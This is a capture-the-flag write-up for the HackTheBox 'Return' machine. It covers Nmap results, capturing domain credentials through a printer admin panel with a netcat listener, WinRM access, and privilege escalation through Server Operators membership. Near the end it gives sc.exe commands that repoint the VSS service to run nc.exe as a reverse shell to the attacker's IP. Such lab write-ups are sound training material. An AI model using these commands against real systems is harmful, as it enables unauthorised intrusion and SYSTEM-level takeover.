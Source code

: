 # HackTheBox - Return Writeup


## Nmap

First, let's start scanning the IP address with the Nmap.

### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

## Http

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![printer webpage](printer-home.png "printer webpage")

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![printer settings](printer-settings.png "printer settings")

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### NetCat

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![put tun0 ip](printer-tun0.png "put tun0 ip")

![grab the credentials](nc-clear-pass.png "grab the credentials")

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

## Evil-WinRM

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![login as svc-printer](evil-winrm-svc-printer.png "login as svc-printer")

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### Server Operators

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![Server Operators group](whoami-all.png "Server Operators group")

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### nc.exe

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![transfer nc.exe](nc-exe-download.png "transfer nc.exe")

## System Shell

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![shell as nt authority\system](system-shell.png "shell as nt authority\system")

TA DAAA!!! now I'm an `authority\system`.

